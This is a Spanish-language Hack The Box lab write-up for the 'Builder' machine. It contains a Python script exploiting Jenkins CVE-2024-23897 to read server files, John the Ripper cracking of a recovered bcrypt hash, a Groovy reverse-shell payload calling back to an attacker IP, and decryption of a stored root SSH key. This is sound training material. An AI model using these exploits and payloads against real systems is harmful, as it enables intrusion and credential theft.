---

# Descripcion

La máquina Builder de Hack The Box es un laboratorio Linux de dificultad fácil que gira en torno a Jenkins. Durante la explotación descubrimos la vulnerabilidad CVE-2024-23897, que permite realizar lectura arbitraria de archivos (LFI) y obtener credenciales mediante la extracción de hashes. Tras acceder al panel de Jenkins, aprovechamos la ejecución de scripts Groovy para conseguir una reverse shell. Finalmente, desciframos una clave SSH almacenada en Jenkins y obtenemos acceso como root.

---


# Enumeración

## Nmap

> Comenzamos realizando un escaneo de todos los puertos TCP para identificar los servicios expuestos en la máquina.

```bash
nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.230.220
```



> Una vez identificados los puertos abiertos, realizamos un segundo escaneo para detectar las versiones de los servicios y ejecutar los scripts básicos de enumeración de Nmap.

```bash
nmap -p22,8080 -sC -sV 10.129.230.220
```



## Web

> Utilizamos WhatWeb para identificar las tecnologías empleadas por la aplicación web.

```bash
whatweb http://builder.htb:8080
```



- Web



> Nos encontramos ante una aplicación web que utiliza **Jenkins 2.441**. Tras investigar esta versión, encontramos la vulnerabilidad `CVE-2024-23897`, que permite realizar ataques de lectura arbitraria de archivos (LFI).
>
> Esta vulnerabilidad se debe a un fallo en el procesamiento de los argumentos del CLI de Jenkins. Concretamente, permite utilizar el carácter `@` para indicar un archivo cuyo contenido será interpretado como argumento, pudiendo aprovechar este comportamiento para leer archivos del servidor.
>
> Vamos a explotarla manualmente y, posteriormente, crearemos un pequeño script en Python para automatizar el proceso.


## LFI - CVE-2024-23897

> Primero descargamos el cliente CLI de Jenkins desde el propio servidor:

```bash
wget http://builder.htb:8080/jnlpJars/jenkins-cli.jar
```

A continuación, utilizamos Java para ejecutar el cliente y solicitar la lectura de `/etc/passwd`:

```bash
java -jar jenkins-cli.jar -s http://builder.htb:8080 -http connect-node @/etc/passwd
```



> El resultado no se muestra de una forma especialmente limpia, pero podemos comprobar que la lectura del archivo se ha realizado correctamente.
>
> Para facilitar la explotación y evitar tener que ejecutar manualmente el comando cada vez, vamos a crear un pequeño script en Python que automatice el proceso.

```python
import os
import requests
import subprocess

### Funcion descargar archivo 'cli' y llama a payload()
def download_file(url):
    if os.path.exists("jenkins-cli.jar"):
        print("[+] Archivo 'cli' ya descargado, procediendo a enviar el payload")
        return True
    else:
        print("Descargando archivo 'cli'")
        try:
            r = requests.get(url + "/jnlpJars/jenkins-cli.jar")
            with open("jenkins-cli.jar", "wb") as file_jar:
                file_jar.write(r.content)
            return True
        except Exception as e:
            print(f"Error descargando archivo: {e}")
            return False

### FUNCION PAYLOAD
def payload(file, url):
    command = f"java -jar jenkins-cli.jar -s {url} -http connect-node @{file}"
    output = subprocess.run(command, shell=True, capture_output=True)

    # stderr solo para texto/errores
    stderr = output.stderr.decode(errors="ignore")

    for line in stderr.splitlines():
        if "No such agent" in line:
            print(line.split('No such agent "')[1].split('" exists')[0])

def main():
    url = "http://builder.htb:8080"
    file = input("Introduce el archivo: ")

    down_file = download_file(url)

    if down_file:
        payload(file, url)

if __name__ == '__main__':
    main()
```

> Con este script podemos introducir directamente la ruta del archivo que queremos leer. De esta forma, automatizamos la descarga del CLI y mostramos el contenido obtenido de una manera mucho más limpia.



## Enumeración de archivos

> Vamos a comenzar enumerando algunas rutas interesantes. Primero, consultamos las variables de entorno del proceso mediante:

```text
/proc/self/environ
```



> Al revisar su contenido, observamos que estamos dentro de un contenedor y descubrimos que el directorio de Jenkins se encuentra en `/var/jenkins_home`.
>
> Con esta información, podemos preparar un entorno Docker utilizando la misma versión de Jenkins para comprender mejor su estructura de directorios y localizar archivos interesantes del servidor.
>
> Comenzamos intentando leer el archivo `config.xml`:

```text
/var/jenkins_home/config.xml
```



> No encontramos información especialmente interesante. También revisamos `credentials.xml`, pero en ese momento únicamente podríamos obtener una clave SSH cifrada. Para descifrarla necesitaríamos las claves y los archivos internos utilizados por Jenkins, entre ellos `master.key`, que no podemos recuperar mediante el LFI.

## Usuario jennifer - Jenkins

> Por tanto, vamos a explorar otra vía. Podemos consultar los usuarios existentes en Jenkins leyendo el siguiente archivo:

```text
/var/jenkins_home/users/users.xml
```



> El archivo nos devuelve el siguiente identificador:

```text
jennifer_12108429903186576833
```

> Ya tenemos identificado un usuario de Jenkins. Ahora podemos acceder a su directorio personal y consultar su archivo de configuración `config.xml`:

```text
/var/jenkins_home/users/jennifer_12108429903186576833/config.xml
```



> Encontramos el siguiente hash:

```text
#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a
```

> Hemos obtenido una contraseña almacenada mediante bcrypt. Vamos a guardar el hash en un archivo de texto para intentar recuperarla utilizando John the Ripper.

> Guardamos únicamente el hash en `hash.txt`:

```text
$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a
```

Ejecutamos John utilizando el diccionario `rockyou.txt`:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



> Perfecto, John consigue recuperar la contraseña. Ya tenemos unas credenciales que podemos probar en los servicios disponibles.

```text
user: jennifer
pass: princess
```

> Intentamos utilizar estas credenciales para acceder mediante SSH, pero no conseguimos obtener acceso. Por tanto, vamos a probarlas directamente en el panel web de Jenkins.



# Shell como jenkins

> Una vez dentro de Jenkins, encontramos una funcionalidad especialmente interesante: la posibilidad de ejecutar scripts utilizando **Groovy**, un lenguaje de programación que Jenkins integra para realizar tareas de automatización y administración.
>
> Vamos a aprovechar esta funcionalidad para ejecutar un script que nos permita obtener una reverse shell hacia nuestra máquina.





## Groovy - RCE

> Utilizamos el siguiente payload en Groovy:

```groovy
String host="10.10.14.154";
int port=7777;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

> Primero, ponemos nuestra máquina a la escucha mediante Netcat:

```bash
nc -nvlp 7777
```

> A continuación, enviamos el payload desde Jenkins.





> Perfecto, recibimos la conexión y conseguimos obtener una shell como el usuario `jenkins`.

# Shell como root

## Enumeracion

> Anteriormente, durante la enumeración de archivos, habíamos encontrado información interesante en `credentials.xml`. En su interior aparecía una credencial cifrada en Base64 que contenía una clave SSH asociada al usuario `root`.
>
> El problema era que, para descifrarla, necesitábamos disponer de `master.key` y otros archivos internos de Jenkins, algo que no podíamos conseguir mediante la vulnerabilidad LFI.
>
> Sin embargo, ahora que tenemos acceso al sistema y podemos interactuar directamente con Jenkins, podemos aprovechar sus propias funciones para descifrar la credencial.

> Primero, consultamos el contenido de `credentials.xml`:

```bash
cat /var/jenkins_home/credentials.xml
```



> Dentro encontramos la siguiente credencial cifrada:

```python
{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
```

> Ahora volvemos a la misma ventana de Jenkins que utilizamos anteriormente para ejecutar el script de Groovy. Desde ahí, podemos invocar el método `hudson.util.Secret.decrypt()`, que permite descifrar secretos almacenados por Jenkins utilizando sus propias claves internas.

## Descifrar con Groovy

> Ejecutamos el siguiente código, sustituyendo `{XXX=}` por el contenido completo de la credencial cifrada:

```groovy
println(hudson.util.Secret.decrypt("{XXX=}"))
```



> Una vez descifrada la credencial, copiamos la clave privada SSH obtenida en nuestra máquina local y ajustamos sus permisos para que SSH permita utilizarla.

```bash
chmod 600 id_rsa
```

> Finalmente, utilizamos la clave privada para conectarnos al usuario `root`:

```bash
ssh root@10.129.230.220 -i id_rsa
```

